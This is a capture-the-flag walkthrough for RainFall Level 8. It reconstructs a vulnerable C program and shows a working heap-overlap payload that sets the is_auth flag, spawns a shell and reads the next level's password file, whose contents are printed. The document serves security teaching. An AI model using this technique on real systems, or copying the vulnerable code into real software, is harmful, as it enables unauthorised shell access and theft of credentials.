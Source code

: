 # Level 8

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct s_user {
    int id;
    char login[28];
    int is_auth;
};

int *service;
struct s_user *user;

int main()
{
    while (1)
    {
        printf("%p, %p \n", user, service);

        char buf[128];

        if (!(fgets(buf, 128, stdin)))
            break;

        if (!(strncmp(buf, "auth ", 5)))
        {
            user = malloc(4);
            user->id = 0;

            if (strlen(buf + 5) <= 30)
                strcpy(user, buf + 5);
        }

        if (!(strncmp(buf, "reset", 5)))
            free(user);

        if (!(strncmp(buf, "service", 6)))
            service = strdup(buf + 7);

        if (!(strncmp(buf, "login", 5)))
        {
            if (user->is_auth)
                system("/bin/sh");
            else
                fwrite("Password:\n", 1, 10, stdout);
        }
    }
    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. Different commands are then executed based on the input:
- `auth`: Allocates a user structure and copies the input into it.
- `reset`: Frees the user structure.
- `service`: Copies the input into the service buffer.
- `login`: Checks if the user is authenticated and, if so, grants shell access.

We notice that the `auth` doesn't allocate enough memory for the user structure, which is 36 bytes long (4 bytes for the id, 28 bytes for the login and 4 bytes for the `is_auth` field). This means that, with the `service` command, we can write to the user structure, since it will be allocated within the same memory space, and overwrite the `is_auth` field to gain shell access.

Here's the following steps to perform the exploit:
1. Use `auth` to allocate the user structure.
2. Use `service` to write in the user structure and overwrite `is_auth`
3. Execute `login` to verify authentication and obtain a shell.

We'll use `ltrace` to understand the memory allocations and calculate the size needed to overwrite `is_auth`:
```bash
$ ltrace ./level8
[...]
fgets(auth
"auth \n", 128, 0xb7fd1ac0) = 0xbffff6d0
malloc(4) = 0x0804a008
strcpy(0x0804a008, "\n") = 0x0804a008 # user
[...]
fgets(service
"service\n", 128, 0xb7fd1ac0) = 0xbffff6d0
strdup("\n") = 0x0804a018 # service
[...]
level8@RainFall:~$
```

We notice that the user structure is allocated at `0x0804a008` for only 4 bytes, which is not enough to store the whole structure that is 36 bytes long. Furthermore, we also notice that the service buffer is allocated at `0x0804a018` (so within the same memory space as the user structure, since it is located between `0x0804a008` and `0x0804a028`). Moreover, we notice that the `is_auth` field is located at the 32nd byte of the user structure.  
So let's simply calculate the offset needed to reach `is_auth`:
```
0x0804a018 - 0x0804a008 = 0x10 (16 in decimal)
32 - 16 = 16 bytes of padding
```

We subtract 32 from 16 because the `service` buffer was already allocated 16 bytes after the user structure. So we'll have to write 16 bytes of padding to reach `is_auth`. Anything written after that will overwrite `is_auth`.

Let's craft our payload:
```
"auth "
"service" + padding
"login"

"auth \n" + "service" + "\x90"*16 + "\n" + "login\n"
```

The `\n` are needed to simulate the user pressing the enter key, and it will also serve as the 17th character needed to overwrite `is_auth`.

Let's run our payload:
```bash
level8@RainFall:~$ (echo "auth "; python -c 'print("service" + "\x90"*16)'; echo "login"; cat) | ./level8
(nil), (nil)
0x804a008, (nil)
0x804a008, 0x804a018
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

We are now level9! Let's move on to the next level.
